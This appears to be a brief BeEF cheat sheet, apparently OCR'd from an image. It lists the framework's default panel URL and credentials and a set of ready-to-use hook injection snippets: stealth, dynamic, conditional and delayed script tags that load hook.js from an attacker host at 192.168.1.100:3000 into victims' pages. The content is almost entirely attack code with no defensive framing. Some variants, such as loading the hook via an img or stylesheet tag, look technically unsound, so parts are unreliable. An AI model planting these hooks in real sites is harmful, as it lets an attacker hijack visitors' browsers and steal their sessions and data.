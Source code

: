 ### Web UI Access
- Default URL: http://localhost:3000/ui/panel
- Default credentials: beef:beef
- Hook URL: http://localhost:3000/hook.js

## Hook Deployment

### Basic Hook Injection
```html
<!-- Basic hook -->
<script src="http://192.168.1.100:3000/hook.js"></script>

<!-- Stealth hook -->
<script>
var s = document.createElement('script');
s.src = 'http://192.168.1.100:3000/hook.js';
s.type = 'text/javascript';
document.getElementsByTagName('head')[0].appendChild(s);
</script>

<!-- Image-based hook -->
<img src="http://192.168.1.100:3000/hook.js" style="display:none">

<!-- CSS-based hook -->
<link rel="stylesheet" type="text/css" href="http://192.168.1.100:3000/hook.js">
```

### Advanced Hook Techniques
```javascript
// Dynamic hook loading
(function() {
    var beef = document.createElement('script');
    beef.src = 'http://192.168.1.100:3000/hook.js';
    beef.onload = function() {
        console.log('BeEF hook loaded');
    };
    document.head.appendChild(beef);
})();

// Conditional hook loading
if (document.domain !== 'trusted-site.com') {
    var s = document.createElement('script');
    s.src = 'http://192.168.1.100:3000/hook.js';
    document.head.appendChild(s);
}

// Delayed hook loading
setTimeout(function() {
    var s = document.createElement('script');
    s.src = 'http://192.168.1.100:3000/hook.js';
    document.head.appendChild(s);
}, 5000);
```
